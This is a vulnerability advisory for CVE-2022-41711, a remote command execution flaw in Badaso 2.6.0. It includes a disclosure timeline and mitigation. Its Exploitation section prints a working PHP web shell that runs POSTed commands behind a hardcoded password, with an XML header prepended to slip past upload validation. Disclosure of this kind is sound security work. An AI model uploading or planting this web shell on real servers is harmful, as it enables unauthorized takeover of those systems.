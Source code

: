 ```yaml
---
slug: advisories/harlow/
title: Badaso 2.6.0 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: harlow
product: Badaso 2.6.0 - RCE
date: 2022-10-18 01:00 COT
cveid: CVE-2022-41711
severity: 10.0
description: Badaso 2.6.0    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Badaso, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Badaso 2.6.0 - RCE                                                 |
| **Code name**         | [Harlow](https://en.wikipedia.org/wiki/Jack_Harlow)                |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2.6.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-18                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41711](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41711)                                             |

## Description

Badaso version 2.6.0 allows an unauthenticated remote attacker to
execute arbitrary code remotely on the server. This is possible
because the application does not properly validate the data uploaded
by users.

## Vulnerability

This vulnerability occurs because the application does not correctly
validate files uploaded by users. Thanks to this, we uploaded a file
with malicious PHP code, instead of an image file.

## Exploitation

To exploit this vulnerability, the following file must be sent to the
server:

### exploit.php

```php
<?xml version="1.0" standalone="no"?>
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

It is important to put an XML header before the malicious code to
bypass security controls.

## Evidence of exploitation

![RCE-badaso](https://user-images.githubusercontent.com/51862990/196501094-37997697-2346-42a6-891c-b2044cf8d0b8.gif)

![image](https://user-images.githubusercontent.com/51862990/196500837-06a8ce8a-3fff-42cc-b3b9-8aad023719f2.png)

## Our security policy

We have reserved the CVE-2022-41711 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Badaso 2.6.0

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/uasoft-indonesia/badaso>

**Issue** <https://github.com/uasoft-indonesia/badaso/issues/802>

## Timeline

<time-lapse
  discovered="2022-10-05"
  contacted="2022-10-05"
  replied="2022-10-05"
  confirmed="2022-10-05"
  patched="2022-10-11"
  disclosure="2022-10-18">
</time-lapse>
